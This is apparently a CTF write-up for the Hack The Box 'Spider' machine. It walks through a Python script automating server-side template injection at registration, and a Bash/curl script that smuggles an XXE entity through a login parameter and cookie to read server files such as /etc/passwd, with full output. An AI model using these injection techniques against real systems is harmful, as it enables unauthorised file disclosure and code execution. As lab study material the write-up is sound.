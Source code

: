 # Hack The Box. Machines. Spider

Machine write-up: https://7rocky.github.io/en/htb/spider

### `ssti.py`

This Python script is made to automate the explotation of a Server-Side Template Injection (SSTI) which appears when registering a new account at `http://spider.htb` and then reading the user profile. The vulnerable parameter is `username`.

We can perform the POST request using module `requests` (obviously). This request is done to `http://spider.htb/register` specifying `username`, `confirm_username`, `password` and `confirm_password` as request body:

```python
    data = {
        'username': username,
        'confirm_username': username,
        'password': password,
        'confirm_password': password
    }

    s = requests.session()
    r = s.post('http://spider.htb/register', data=data)
```

After that, we need to catch the UUID that the server gives us. For that we can use a regular expression using module `re`:

```python
    try:
        uuid = re.search(
            r'<input type="text" name="username" value="(.*?)" />', r.text).group(1)
    except AttributeError:
        print(r.text)
        sys.exit()
```

If an error occurs, we print the whole response to try looking for errors.

Then, we need to access to the profile created. For that, we need to perform another POST request (this time to `http://spider.htb/login`) specifying `uuid` and `password`:

```python
    s.post('http://spider.htb/login',
           data={'username': uuid, 'password': password})
    r = s.get('http://spider.htb/user')
```

However, this POST request only sets a cookie and redirects to the main page. By using a `requests` session we can keep the cookie for next requests.

If we access `http://spider.htb/user` (with a GET request), here is where we can see the SSTI payload being executed. We know that the data is in the `username` field. Again, using a regular expression we are able to extract the data we are interested in:

```python
    try:
        result = re.search(
            r'<input type="text" name="username" readonly value="(.*?)" />', r.text).group(1)
        result = result.replace('&#39;', "'").replace(
            '&lt;', '<').replace('&gt;', '>')
        print(result)
    except AttributeError:
        print(r.text)
```

Again, if an error occurs, we print the whole response.

Finally, we can execute the script as follows:

```console
$ python3 ssti.py '{{7*7}}'
49
```

### `xxe.sh`

This Bash script automates the process of reading files from the server exploiting an XML External Entity (XXE) injection.

We need to take into account how the XXE is exploitable. First, we need a port-forwarding so that port 8080 in the remote machine is mapped to port 8888 in our attacker machine (we did not choose 8080 because Burp Suite listens on that port).

Then, we can see that the data we provide in the login process is inserted in the cookie provided by the server (use Burp Suite or the browser developer tools to check the form parameters):

```console
$ curl http://localhost:8888/login -svH 'Content-Type: application/x-www-form-urlencoded' -d 'username=7Rocky&version=1.33.7'
*   Trying 127.0.0.1:8888...
* Connected to localhost (127.0.0.1) port 8888 (#0)
> POST /login HTTP/1.1
> Host: localhost:8888
> User-Agent: curl/7.79.1
> Accept: */*
> Content-Type: application/x-www-form-urlencoded
> Content-Length: 30
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 302 FOUND
< Content-Type: text/html; charset=utf-8
< Content-Length: 217
< Location: http://localhost:8888/site
< Vary: Cookie
< Set-Cookie: session=.eJxtzstqhDAAheFXKVl3YYIDHaGLhvE6GInmgtmNRKoY03QiVB3m3eumu67P-eF7ALPOBkQP8NKBCPCYJDpeGZ0KUcvFihnKXpZbl6nxxpOQpY700_rdIl3y_eNOkQt7mW8Vw1Shs204wQrijM_DVAf82A1WgblQqQsaJJbHg-yNaxsrlNgTz1M3cZRvzBZGZBqpZKi6lCxEDqOA__Xa9-Zzq-dlFGiFR4-r-Ofwubac1L012muBbYf-_uXpBk17eA7fW8gu5KrnfOeNfwfPV-C-Rrt4EAXPX_HQWOc.YXPYog.GJtBaEqASFJ3QxKY08rhwi3v5NQ; HttpOnly; Path=/
< 
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
* Connection #0 to host localhost left intact
<p>You should be redirected automatically to target URL: <a href="/site">/site</a>.  If not click the link.
```

To extract the data contained in the cookie, we can make use of module `flask_unsign` (you can install it with `pip`):

```console
$ python -m flask_unsign --decode --cookie '.eJxtzstqhDAAheFXKVl3YYIDHaGLhvE6GInmgtmNRKoY03QiVB3m3eumu67P-eF7ALPOBkQP8NKBCPCYJDpeGZ0KUcvFihnKXpZbl6nxxpOQpY700_rdIl3y_eNOkQt7mW8Vw1Shs204wQrijM_DVAf82A1WgblQqQsaJJbHg-yNaxsrlNgTz1M3cZRvzBZGZBqpZKi6lCxEDqOA__Xa9-Zzq-dlFGiFR4-r-Ofwubac1L012muBbYf-_uXpBk17eA7fW8gu5KrnfOeNfwfPV-C-Rrt4EAXPX_HQWOc.YXPYog.GJtBaEqASFJ3QxKY08rhwi3v5NQ'
{'lxml': b'PCEtLSBBUEkgVmVyc2lvbiAxLjMzLjcgLS0+Cjxyb290PgogICAgPGRhdGE+CiAgICAgICAgPHVzZXJuYW1lPjdSb2NreTwvdXNlcm5hbWU+CiAgICAgICAgPGlzX2FkbWluPjA8L2lzX2FkbWluPgogICAgPC9kYXRhPgo8L3Jvb3Q+', 'points': 0}

$ echo PCEtLSBBUEkgVmVyc2lvbiAxLjMzLjcgLS0+Cjxyb290PgogICAgPGRhdGE+CiAgICAgICAgPHVzZXJuYW1lPjdSb2NreTwvdXNlcm5hbWU+CiAgICAgICAgPGlzX2FkbWluPjA8L2lzX2FkbWluPgogICAgPC9kYXRhPgo8L3Jvb3Q+ | base64 -d
<!-- API Version 1.33.7 -->
<root>
    <data>
        <username>7Rocky</username>
        <is_admin>0</is_admin>
    </data>
</root> 
```

So we have control of the `version` and the `username` field. To perform a XXE we need to insert an entity at the top of the XML document. The entity definition can be placed in the `version` parameter (after closing the comment tag). Then, in the `username` field we can call the entity.

This is the document we want to be generated:

```xml
<!-- API Version 1.33.7 -->
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<!-- Pwned -->
<root>
    <data>
        <username>BEGINTAG
&xxe;
ENDTAG</username>
        <is_admin>0</is_admin>
    </data>
</root>
```

Notice that `BEGINTAG` and `ENDTAG` are placed to use `grep` and extract the relevant data (which will be rendered in `&xxe;`).

This parameters must be placed in a `curl` POST request to `http://localhost:8888/login` as data. We are interested in the cookie that the server returns. That is why we use verbose mode and use `grep` and `sed` to get the exact value of a valid Cookie header:

```bash
data="username=BEGINTAG
%26xxe;
ENDTAG&version=1.33.7 -->
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM \"file://$file\"> ]>
<!-- Pwned"

cookie=$(curl http://localhost:8888/login -vsd "$data" 2>&1 | grep session= | sed 's/< Set-//g' | tr -d '\r\n')
```

This data of `&xxe;` will be rendered in the website, so we can use `curl` to `http://localhost:8888/site` providing the cookie obtained before:

```bash
res=$(curl http://localhost:8888/site -sH "$cookie")
```

Finally, using `grep` we can filter the file contents. This is done by obtaining the line numbers where `BEGINTAG` and `ENDTAG` are in the HTTP response. Then we can print the data between those numbers using `sed`:

```bash
begin=$(( $(echo "$res" | grep -n BEGINTAG | awk -F : '{ print $1 }') + 1 ))
end=$(( $(echo "$res" | grep -n ENDTAG | awk -F : '{ print $1 }') - 1 ))

echo -n "$res" | sed -n "${begin},${end}p"
```

For example, we can use the script to read `/etc/passwd`:

```console
$ bash xxe.sh /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
chiv:x:1000:1000:chiv:/home/chiv:/bin/bash
mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false
```
